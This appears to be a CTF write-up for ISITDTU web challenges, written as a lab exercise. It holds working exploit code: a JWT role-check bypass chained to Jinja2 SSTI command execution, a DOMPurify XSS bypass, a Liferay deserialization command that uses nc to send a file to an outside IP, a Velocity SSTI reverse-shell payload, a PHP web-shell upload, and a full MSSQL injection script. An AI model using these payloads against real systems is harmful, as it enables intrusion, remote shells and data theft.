## Writeup

### Another one


For this challenge, at first glance, I'm looking at this part:

```python
@app.route('/render', methods=['POST'])
def dynamic_template():
    token = request.cookies.get('jwt_token')
    if token:
        try:
            decoded = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
            role = decoded.get('role')

            if role != "admin":
                return jsonify(message="Admin only"), 403

            data = request.get_json()
            template = data.get("template")
            rendered_template = render_template_string(template)
            
            return jsonify(message="Done")

        except jwt.ExpiredSignatureError:
            return jsonify(message="Token has expired."), 401
        except jwt.InvalidTokenError:
            return jsonify(message="Invalid JWT."), 401
        except Exception as e:
            return jsonify(message=str(e)), 500
    else:
        return jsonify(message="Where is your token?"), 401
```

It uses `render_template_string` that's [Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti). However, to access it, I need to have the **admin role**. So, I need to bypass this to exploit SSTI vulnerability. And when i look at this part:

```python
if "admin" in json_data:
    return jsonify(message="Blocked!")
data = ujson.loads(json_data)
```

I see that it uses [ujson](https://github.com/ultrajson/ultrajson) to load json data. When see ujson example i found the way to get admin role.



So can use unicode `\\u0061dmin` and then it will load into admin and bypass the check.
```python
>>> ujson.loads('{"role":"\\u0061dmin"}')
{'role': 'admin'}
```

Exploit script:
```python
import requests
import random

BASE_URL = "http://localhost:8082"
username = "".join(random.choices("abcdefghijklmnopqrstuvwxyz", k=10))
password = "".join(random.choices("abcdefghijklmnopqrstuvwxyz", k=10))

register_url = f"{BASE_URL}/register"
json = {"password": password, "role": "\\u0061dmin", "username": username}
requests.post(register_url, json=json)

login_url = f"{BASE_URL}/login"
json = {"password": password, "username": username}
r = requests.post(login_url, json=json)
cookie = r.json()["message"]
print("cookie: ", cookie)

render_url = f"{BASE_URL}/render"
cookies = {"jwt_token": cookie}
json = {
    "template": "{{ cycler.__init__.__globals__.os.popen('mkdir static;ls > /app/static/test').read() }}"
}
requests.post(render_url, cookies=cookies, json=json)

url = f"{BASE_URL}/static/test"
print(requests.get(url).text)
```

Flag: `ISITDTU{N0W_y0u_kn0w_h0w_T0_m4k3_1t_r3Fl3ct3d!!}`

### X Ec Ec



For this challenge it said it uses dompurify 3.1.6 so i go to https://github.com/cure53/DOMPurify/releases and see that `masatokinugawa` report it. Then i go to his  and see the payload.
```html
<svg>
<a>
<foreignobject>
<a>
<table>
<a>
</table>
<style><!--</style>
</svg>
<a id="->">
```

Flag: `ISITDTU{d364c13b91d3bd0ecb3ffed49b229fc06b1208e8}`

### niceray



This challenge uses Liferay 6.2 GA3 to deploy a basic web interface. Liferay with version <7.0 is vulnerable to the deserialization attack. There is [a blog](https://sec.vnpt.vn/2019/01/ahihihihihihihihihihihihi/
) discussing this exploit, suggesting to send a malicious payload to `/api///liferay` due to bad URI filtering in the version 6.2.3-ga4 and below.

The malicious payload can be generated using [ysoserial](https://github.com/frohoff/ysoserial) with payload type `CommonsCollections5` as suggested in the article mentioned above.

The command payload to get flag is something like this:
```
bash -c {cat,/????????????????}|{nc,IP,53}
```

This is because in file `entrypoint.sh` they expose port 53


So that we can handle request from this. You can build local or using docker to generate payload from ysoserial.

### Simple



In this challenge, it only give Dockerfile. When i [this link](https://hub.docker.com/layers/servertest2008/simplehttpserver/1.4/images/sha256-4f659618a10f02dc31fe1388ed6a2c71001a539112ab1d48c710945dfde687d5?context=explore) in dockerhub i see this. 

Unfortunately, this is not the real flag. But it hint that apache confusion by orange. This hint remind me [this blog](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/) from orange tsai. 



So i can upload a html shell and use it in admin.php. The useful upload file is `/usr/share/vulnx/shell/VulnX.php`. Use that to upload a shell, example: `<?php CMD; ?>`

Flag: `ISITDTU{5e85c3b7f62b1dd9a990530c03f39abaa78f7085}`

### hihi



This challenge using velocity to render. So i think about **velocity SSTI**. But first it need to serialize data and then send it. So i create a place in `com.isitdtu.hihi.Users` (also bypass this filter)

```java
if (!approvedClass.contains(osc.getName())) {
            throw new InvalidClassException("Cannot deserialize this class!", osc.getName());
}
```

**Encode.java**
```java
    public static String bytesToHex(byte[] bytes) {
        StringBuilder hexString = new StringBuilder(2 * bytes.length);
        for (byte b : bytes) {
            String hex = Integer.toHexString(0xFF & b);
            if (hex.length() == 1) {
                hexString.append('0');
            }
            hexString.append(hex);
        }
        return hexString.toString();
    }
```
**MainController.java**
```java
@PostMapping(value = "/test")
*     @ResponseBody
    public String test(@RequestParam("name") String name) throws IOException {
        Users user = new Users();
        user.setName(name);
        try {
            // Serialize the object to a byte array
            ByteArrayOutputStream byteStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOut = new ObjectOutputStream(byteStream);
            objectOut.writeObject(user);
            objectOut.close();
            byte[] serializedBytes = byteStream.toByteArray();

            // Convert serialized bytes to hex
            String hexString = Encode.bytesToHex(serializedBytes);

            // Encode hex string to Base64
            String base64Encoded = Base64.getEncoder().encodeToString(hexString.getBytes());
            return ("Base64 encoded hex of serialized object: " + base64Encoded);
            
        } catch (IOException i) {
            i.printStackTrace();
            return "Error";
        }
    }
```
Use `mvn install` to compile into file jar and then run docker again.
And then use this payload to revshell:
```java
$date.getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("bash -c {echo,BASE_32_PAYLOAD_REVSHELL}|{base32,-d}|{bash,-i}").getInputStream()
```


Flag: `ISITDTU{We1come_t0_1s1tDTU_CTF}`

### Hero



I solve it after the contest. It's easy if you find out [this blog](https://cyku.tw/no-database-mssql-injection/). All detail is in the blog so i just give solve script (simple UNION SQL Injection).

```python
#!/usr/bin/env python3
import requests, os, sys
import re

def cleanhtml(raw_html):
    cleanr = re.compile('<.*?>')
    cleantext = re.sub(cleanr, '', raw_html)
    cleantext = re.sub(r'\s+', ' ', cleantext).strip() 
    return cleantext

BASE_URL = 'http://213.35.127.196:63432/'
username = os.urandom(16).hex()
password = os.urandom(16).hex()
session = requests.Session()

def register_user():
    res = session.post(BASE_URL + 'register', data={'username': username, 'password': password})
    print(f"[+] Registered user: {username}:{password}")
    
def login_user():
    res = session.post(BASE_URL + 'login', data={'username': username, 'password': password})
    print(f"[+] Logged in as {username}")

def extract_all_db_names():
    for i in range(1, 100):
        payload = f"STY as id, (SELECT DB_NAME({i})) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
        res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
        clean_res = cleanhtml(res.text)
        pattern = re.compile(r'Heroes List List of Heroes ID Name Power 0(.*?)1', re.DOTALL)
        if pattern.search(clean_res).group(1).strip() == 'null':
            break
        else:
            print(f"[+] Extracted DB name: {pattern.search(clean_res).group(1).strip()}")

def extract_tables(db_name):
    payload = f"STY as id, (SELECT TOP 1 name FROM {db_name}..sysobjects WHERE xtype = 'U' ORDER BY name ASC) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
    res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
    clean_res = cleanhtml(res.text)
    pattern = re.compile(r'Heroes List List of Heroes ID Name Power 0(.*?)1', re.DOTALL)
    print(f"[+] Extracted table name {pattern.search(clean_res).group(1).strip()} from database {db_name}")
    return pattern.search(clean_res).group(1).strip()

def extract_columns(table_name):
    payload = f"STY as id, (SELECT TOP 1 name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '{table_name}')) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
    res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
    clean_res = cleanhtml(res.text)
    pattern = re.compile(r'Heroes List List of Heroes ID Name Power 0(.*?)1', re.DOTALL)
    print(f"[+] Extracted column name {pattern.search(clean_res).group(1).strip()} from table {table_name}")
    return pattern.search(clean_res).group(1).strip()    

def get_flag(table_name, column_name):
    payload = f"STY as id, (SELECT TOP 1 {column_name} FROM {table_name}) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
    res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
    clean_res = cleanhtml(res.text)
    flag_pattern = re.compile(r'ISITDTU\{.*?\}')
    flag_match = flag_pattern.search(clean_res)
    if flag_match:
        print(f"[+] Flag: {flag_match.group()}")
    else:
        print("[-] Flag not found")

def main():
    register_user()
    login_user()
    extract_all_db_names()
    table = extract_tables('heroes')
    column = extract_columns(table)
    get_flag(table, column)

if __name__ == '__main__':
    main()
```


### Geo Weapon 



This challenge is a 0-day in geoserver. I think this vuln can be exploited using another N-day i found in [baidu](https://baijiahao.baidu.com/s?id=1803977874144060141&wfr=spider&for=pc). But i do not have enough time to analyze the patch so maybe i will try to solve this later if i could :))). 
